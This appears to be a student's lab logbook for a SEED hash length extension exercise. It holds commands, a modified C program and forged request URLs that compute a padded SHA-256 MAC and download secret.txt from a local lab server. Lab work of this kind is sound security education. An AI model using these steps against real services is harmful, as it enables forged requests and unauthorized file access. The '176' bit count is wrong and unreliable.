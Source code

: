 ## Hash Length Extension

#### Task 1: Send Request to List Files

First we picked a uid number from the ```key.txt```file: **1001:123456**.

We built the message: 
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
```

To calculate the MAC, we ran the command:
```
$ echo -n "123456:myname=MariaVieira&uid=1001&lstcmd=1" | sha256sum
```
The result was **1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e  -**.

Then, we built the request and sent it using the browser: 
```
http://www.seedlab-hashlen.com/?myname=MariaVieira&uid=1001&lstcmd=1mac=1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e
```
This didn´t work, so we tried to use 10.9.0.80 in the url:
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1&mac=1b7ae954e7654d0df10f49c001b146bcc00341355349f58fd7ce0b0e79e1d06e&subid1=20241206-1030-1288-97a0-15adcfd528ba
```
This time, it worked, showing the files successfully:


![Image 1](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1_LOGBOOK10_2.png)


Then, we did the download request:
- We had to calculate the MAC again with 
```echo -n "123456:myname=MariaVieira&uid=1001&lstcmd=1&download=secret.txt" | sha256sum```
- Sent the updated url: 
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1&download=secret.txt&mac=289e9016b7caf160b0b116505c9452ac870b83598d95df94c221c47393d264d5
```

The request was successful, showing the files in LabHome and the content of ```secret.txt```!

![Image 2](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task1_LOGBOOK10_3.png)

#### Task 2: Create Padding

We already have the message from Task1:
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
```
The length of the message is 43
bytes, so the padding is 64 - 43 = 21 bytes, including 8 bytes of the length field. 

The length of the message in
term of bits is 43 * 8 = 176 = 0x158. 

SHA256 will be performed in the following padded message:
```
123456:myname=MariaVieira&uid=1001&lstcmd=1
\x80
\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x01\x58

```

Because of the 21 bytes of padding, we added ```\x00``` 18 times, because the other 3 bytes are ```\x80```and ```\x01\x58```.

Converting to URL enconding, we obtained:
```
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
```


#### Task 3

We changed the file according to our attack:
```
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[])
{
  int i;
  unsigned char buffer[SHA256_DIGEST_LENGTH];
  SHA256_CTX c;
  
  SHA256_Init(&c);
  
  for(i=0; i<64; i++)
    SHA256_Update(&c, "*", 1);
    
  // MAC of the original message M (padded)
  c.h[0] = htole32(0x1b7ae954);
  c.h[1] = htole32(0xe7654d0d);
  c.h[2] = htole32(0xf10f49c0);
  c.h[3] = htole32(0x01b146bc);
  c.h[4] = htole32(0xc0034135);
  c.h[5] = htole32(0x5349f58f);
  c.h[6] = htole32(0xd7ce0b0e);
  c.h[7] = htole32(0x79e1d06e);
  
  // Append additional message
  SHA256_Update(&c, "&download=secret.txt", 20);
  SHA256_Final(buffer, &c);
  
  for(i = 0; i < 32; i++) {
    printf("%02x", buffer[i]);
  }
  printf("\n");
  return 0;
}
```

Then we ran the code, obtaining the new MAC for the extended request:

![Image 3](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/Task3_LOGBOOK10.png)

Finally, we could build the url to the attack using:
- Request from task1
- Padding from task2: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58
- MAC from task3: 301f72317f48d9351690d119d77a527b1b236fc6f7992653c91e9014e1f6279d

This was the final URL:
```
http://10.9.0.80/?myname=MariaVieira&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58&download=secret.txt&mac=301f72317f48d9351690d119d77a527b1b236fc6f7992653c91e9014e1f6279d
```




